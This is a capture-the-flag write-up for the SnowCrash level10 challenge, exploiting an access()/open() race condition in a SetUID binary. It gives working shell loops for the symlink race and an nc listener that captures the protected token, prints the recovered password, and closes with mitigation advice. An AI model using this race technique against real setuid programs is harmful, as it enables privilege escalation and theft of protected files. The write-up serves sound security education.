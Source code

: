 ## 📄 Description

This level includes a SetUID binary that checks file access using a vulnerable `access()` call. By exploiting a race condition with a fast-switching symlink, we trick the binary into reading a protected token file and send its content over the network to retrieve the flag.

## 🧩 Challenge Overview

- Binary: `level10` (SetUID, owned by `flag10`)

```
-rwsr-sr-x 1 flag10 level10 10817 Mar  5  2016 level10
```

- Target file: `token` (readable only by `flag10`)

```
-rw------- 1 flag10 flag10 26 Mar  5  2016 token
```

- The binary connects to a remote host on port 6969 and sends a file if the user has access to it:

```
level10@SnowCrash:~$ strings level10
[...]
[^_]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
```

- Using `nm -u`, we see the binary uses the `access()` and `open()` system calls:

```
level10@SnowCrash:~$ nm -u level10
[...]
U access@@GLIBC_2.0
U connect@@GLIBC_2.0
U exit@@GLIBC_2.0
U fflush@@GLIBC_2.0
U htons@@GLIBC_2.0
U inet_addr@@GLIBC_2.0
U open@@GLIBC_2.0
[...]
```

- According to the `man 2 access` documentation, using `access()` to check permissions before calling `open()` is **not safe**, as it's **non-atomic**. This creates a race condition vulnerability.

- By exploiting the short time gap between these two calls, we can swap the file using a symlink to trick the binary into opening the protected token file.

## ⚔️ Exploitation Strategy

1. Create a symbolic link `/tmp/exploit` that rapidly switches between a file you can access and the protected `token` file.

```
level10@SnowCrash:~$ while true; do ln -fs ~/level10 /tmp/exploit ; ln -fs ~/token /tmp/exploit; done
```

2. Continuously run the `level10` binary targeting `/tmp/exploit` to trigger repeated permission checks and file opens.

```
level10@SnowCrash:~$ while true; do ./level10 /tmp/exploit 127.0.0.1; done
```

3. Open a listener on port `6969` to capture the file content sent by the binary.

```
level10@SnowCrash:~$ nc -lk 6969
```

4. When the symlink points to `token` during the `open()` call, the binary sends its contents, which we receive on our listener.

```
level10@SnowCrash:~$ nc -lk 6969
[...]
                      ��A�������������������
���o�Ё                                      Є
�
 ��H������o���o�(.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
ELF 4$4 	($!444  TTTT
                            T
                             8X(((��hhhDDP�td\
[...]
```

5. Use the token to switch user to `flag10` and run `getflag`.

## ✅ Result

- By running the exploit, we capture the `first flag` from the `token` file sent to our listener on port 6969.

```
woupa2yuojeeaaed06riuj63c
```

- We use this password to login as `flag10` and get the `second flag`:

```
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token :
```

## 🛡️ Mitigation Advice

- Avoid using `access()` to check permissions before `open()`; this creates a race condition vulnerability.
- Perform permission checks atomically by opening the file and handling errors directly.
- Use safer alternatives like `open()` with **proper flags** or **capabilities** to reduce race conditions.
